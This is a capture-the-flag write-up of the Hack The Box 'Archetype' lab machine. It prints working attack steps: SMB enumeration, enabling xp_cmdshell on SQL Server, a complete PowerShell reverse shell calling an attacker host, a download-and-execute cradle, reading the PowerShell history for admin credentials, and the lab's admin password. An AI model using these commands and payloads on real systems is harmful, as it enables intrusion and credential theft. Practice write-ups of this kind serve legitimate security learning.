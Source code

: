 ```yaml
---
title: "Writeup: Archetype"
date: 2020-12-29T9:34:30-04:00
categories:
  - Blog
  - Writeup
tags:
  - archetype
  - update
  - nmap
  - impacket
  - smbclient
  - SQL Server
  - PE
  - password
  - Windows
---
```


Here are notes from the named target:

1. Enumeration - Ports 445 and 1433 are open, which are associated with file sharing (SMB) and SQL Server.
```yaml
ports=$(nmap -p- --min-rate=1000 -T4 10.10.10.27 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
 nmap -sC -sV -p$ports 10.10.10.27 
```

2.Enumeration - It is worth checking to see if anonymous access has been permitted, as file shares often store configuration files containing passwords or other sensitive information. We can use smbclient to list available shares
```yaml
smbclient -N -L \\\\10.10.10.27\\ 
```

3. Enumeration - There is a share called backups on the server that is public
```yaml
smbclient -N \\\\10.10.10.27\backups
```
Use Dir and Get to list and then download that file - prod.dtsConfig 

4. There is a dtsConfig file, which is a config file used with SSIS.

use CAT to read it locally

You will see the password for the SWL server

5. Foothold - Use mssqlclient to connect to the SQL server on the box
```yaml
mssqlclient.py ARCHETYPE/sql_svc@10.10.10.27 -windows-auth
```
provide the password from the config fill viewed in step 4

We can use the IS_SRVROLEMEMBER function to reveal whether the current SQL user has sysadmin (highest level) privileges on the SQL Server. This is successful, and we do indeed have sysadmin privileges.

This will allow us to enable xp_cmdshell and gain RCE on the host. Let's attempt this, by inputting the commands below.

6. Foothold - we have highest level access in the SQL server so we rune xp_cmdshell to do RCE

```yaml
EXEC sp_configure 'Show Advanced Options', 1;
reconfigure;
sp_configure;
EXEC sp_configure 'xp_cmdshell', 1
reconfigure;
xp_cmdshell "whoami"
```

The whoami command output reveals that the SQL Server is also running in the context of the user ARCHETYPE\sql_svc. However, this account doesn't seem to have administrative privileges on the host.

7. Reverse Shell - Let's attempt to get a proper shell, and proceed to further enumerate the system. We can save the PowerShell reverse shell below as shell.ps1.
```yaml
$client = New-Object System.Net.Sockets.TCPClient("Attacker IP",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
Next, stand up a mini webserver in order to host the file. We can use Python.

```yaml
python3 -m http.server 80
```

After standing up a netcat listener on port 443, we can use ufw to allow the call backs on port 80 and 443 to our machine. No need to open firewall if we dont have it lovally

```yaml
nc -lvnp 443
```

We can now issue the command to download and execute the reverse shell through xp_cmdshell.

```yaml
xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://Attacker IP/shell.ps1\");"
```

A shell is received as sql_svc, and we can get the user.txt on their desktop by navigating the remote system as sql account

8. Privilege Esclation - As this is a normal user account as well as a service account, it is worth checking for frequently access files or executed commands. We can use the command below to access the PowerShell history file.

```yaml
type C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt  (can also use more command to see contents of file like the user dile

```

That history file shows that the administrator account was used to map a drive to T:\ and what the password was.

From the "ARCHTYPE" box we learned that their was an Administrator/Admin account that used the Password: MEGACORP_4dm1n!!

This reveals that the backups drive has been mapped using the local administrator credentials. We can use Impacket's psexec.py to gain a privileged shell.

Finally we can use psexec.py from Impacket to connect to the server as Administrator useing the password found in the above step and het the root target hash

 Administrator/Admin account that used the Password: MEGACORP_4dm1n!!




